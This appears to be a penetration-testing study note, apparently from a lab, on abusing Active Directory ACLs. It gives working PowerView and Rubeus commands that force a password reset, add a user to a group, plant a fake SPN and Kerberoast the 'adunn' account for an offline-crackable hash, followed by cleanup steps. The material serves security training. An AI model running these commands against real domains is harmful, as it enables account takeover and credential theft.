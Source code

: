 ### Content
- Abuse `User-Force-Change-Password`
- Abuse `GenericWrite` over a group
- Abuse `GenericAll` to conduct targeted Kerberoasting attack 
---
After the enumeration, we gained a lot of information, now to perform the attack chain we have to do the following then clean up at the end.
<img src="../../../../../assets/acl_abuse_path.png" width="70%">

1. Use the `wley` user to change the password for the `damundsen` user by abusing the User-Force-Change-Password
	``` PowerShell
	# Login into the controlled user (wley), or create a PSCredential object for that user
	PS C:\> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
	PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\wley', $SecPassword) 
	# Create SecureString to set for the target user damundsen.
	PS C:\> $damundsenPassword = ConvertTo-SecureString 'new_password123@' -AsPlainText -Force
	# Import PowerView and use the Set-DomainUserPassword function
	PS C:\> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
	```

2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
	``` PowerShell
	# Creating a SecureString Object using damundsen
	PS C:\> $SecPassword = ConvertTo-SecureString 'new_password123@' -AsPlainText -Force
	PS C:\> $Cred2 = New-Object System.Management.Automation.PSCredential('DOMAIN\damundsen', $SecPassword)
	# Import PowerView and use the Add-DomainGroupMember function to add ourselves to the target group.
	PS C:\> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
	```

3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.
	``` PowerShell
	# Creating a SecureString Object using damundsen
	PS C:\> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='hacker/SERVICE'} -Verbose
	# Kerberoasting with Rubeus
	PS C:\> .\Rubeus.exe kerberoast /user:adunn /nowrap
	[SNIP]
	[*] SamAccountName         : adunn
	[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT......
	[*] ServicePrincipalName   : hacker/SERVICE
	[*] PwdLastSet             : 3/1/2022 11:29:08 AM
	[*] Supported ETypes       : RC4_HMAC_DEFAULT
	[*] Hash                   : $krb5tgs$23$*adunn$DOMAIN.LOCAL$hacker/SERVICE@DOMAIN.LOCAL*$ <SNIP>
	[SNIP]
	PS C:\> 
	```

4. Clean Up
``` PowerShell
# 1.Remove the fake SPN we created on the adunn user.
PS C:\> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
# 2.Remove the damundsen user from the Help Desk Level 1 group
PS C:\> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
PS C:\> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
# 3.Set the password for the damundsen user back to its original value (if we know it) or have our client set it/alert the user
```
---